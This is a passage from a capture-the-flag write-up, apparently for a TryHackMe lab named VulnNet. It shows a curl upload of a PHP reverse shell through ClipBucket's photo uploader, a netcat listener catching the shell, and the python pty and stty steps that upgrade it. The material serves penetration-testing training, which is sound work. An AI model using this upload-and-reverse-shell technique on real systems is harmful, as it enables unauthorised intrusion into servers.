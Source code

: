 
## Initial Shell

### Upload Reverse Shell

- Copy the `php-reverse-shell.php` and change the IP address and Port.
- Now upload using the exploit code (just change the file name and Authorization header)
- **P.S**: This authorization header is for accessing `http://broadcast.vulnnet.thm`. It's not the authorization for clipbucket.

```bash
$ curl -F "file=@reverse.php" -F "plupload=1" -F "name=reverse.php" "http://broadcast.vulnnet.thm/actions/photo_uploader.php" -H "Authorization: Basic REDACTED"

{"success":"yes","file_name":"16217114086733f6","extension":"php","file_directory":"2021\/05\/22"}
```

### Capture & Upgrade the shell

- Listen on the appropriate port using netcat.
- Now visit `http://broadcast.vulnnet.thm/files/photos/2021/05/22/16217114086733f6.php` to get the reverse shell:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.45.2] 36056
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:25:44 up 14 min,  0 users,  load average: 0.25, 0.41, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Upgrade the shell:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnnet:/$ export TERM=xterm
export TERM=xterm
www-data@vulnnet:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~/Desktop/CTF/TryHackMe/vulnnet# stty raw -echo; fg
nc -lvnp 1234

www-data@vulnnet:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Running Linpeas
